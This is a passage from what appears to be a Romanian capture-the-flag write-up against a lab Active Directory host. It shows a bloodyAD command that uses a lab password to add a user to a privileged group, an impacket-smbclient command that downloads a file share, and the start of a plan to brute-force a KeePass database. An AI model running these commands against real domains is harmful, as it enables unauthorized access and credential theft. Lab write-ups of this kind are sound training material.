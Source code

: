 Fig. 11

4. Pentru a adauga user-ul levi.james in Developers, vom folosi bloodyAD. 
O documentatie relevanta se poate regasi aici:
[https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad](https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad)

*bloodyAD --host dc.puppy.htb --dc-ip 10.10.11.70 \
-d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' \
add groupMember 'Developers' 'levi.james'*

![Fig. 12](./image-11.png)

Fig. 12

5. Dupa conectarea pe smb am accesat share ul Dev si am descarcat tot ce aveam pe el. 
Un fisier care ne raspunde la intrebare, se afla in ce am descarcat. 

*impacket-smbclient -k -no-pass 'PUPPY.HTB/levi.james@dc.puppy.htb' -dc-ip 10.10.11.70*

![Fig. 13](./image-12.png)

Fig. 13

6. Pentru a putea cracka baza de date in format KeePass va trebui sa facem bruteforce. keepass2john nu a functionat 
